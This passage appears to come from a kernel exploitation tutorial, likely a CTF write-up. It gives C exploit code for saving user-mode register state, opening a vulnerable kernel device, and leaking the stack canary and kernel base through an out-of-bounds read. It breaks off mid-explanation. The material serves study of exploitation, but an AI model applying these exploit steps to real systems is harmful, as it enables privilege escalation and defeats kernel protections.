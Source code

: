 ```c
        "mov user_rflags, rax;"
        ".att_syntax;"
        : "=m"(user_mode_cs), "=m"(user_ss), "=m"(user_sp), "=m"(user_rflags)
        :
        : "rax", "memory"
    );
    puts("[*] Saved state");
}
```
### 2: Opening the file descriptor
To interact with a kernel module, one has to open a handle to it. The function below takes the name of the target kernel module as a paramter:
```c
void open_dev(char *name){
  char devname[100] = "/dev/";
  strcat(devname, name);
  printf("Opening name: %s\n", devname);
  global_fd = open(devname, O_RDWR);
	if (global_fd < 0){
		puts("[!] Failed to open device");
		exit(-1);
	} else {
    puts("[*] Opened device");
    printf("Global fd: %d\n", global_fd);
    }
}
```
### 3: Leaking canary and .text address using the read function
Since the **read** function allows out-of-bounds (OOB) read we can leak the canary and a .text address since the canary and saved return pointer reside on the stack right after the buffer: 
```c
void leak(void){
    uint32_t n = 200;
    char leak[n]; // Unsigned long is 8 bytes on 64-bit. Necessary to contain 8 byte canary
    memset(leak, 'A', sizeof(leak));
    printf("Size of leak: %lu\n", sizeof(leak));
    ssize_t success = read(global_fd, leak, sizeof(leak));
    memcpy(&canary, &leak[100], sizeof(canary));
    memcpy(&rbp_leak, &leak[108], sizeof(rbp_leak));
    uint64_t kleak = 0;
    memcpy(&kleak, &leak[116], sizeof(kleak));

    if (success == 0) {
        puts("[+] raw_copy_to_user succeeded");
    }

    printf("[*] Canary: 0x%lx\n", canary);

    kbase = kleak - 0x7BF24C;

    printf("[*] rbp_leak: 0x%lx\n", rbp_leak);
    printf("[*] Kleak:  0x%lx\n", kleak);
    printf("[*] Kbase: 0x%lx\n", kbase);
    printf("[*] User rsp: 0x%lx\n", user_sp);
}
```
The user mode buffer before the read call: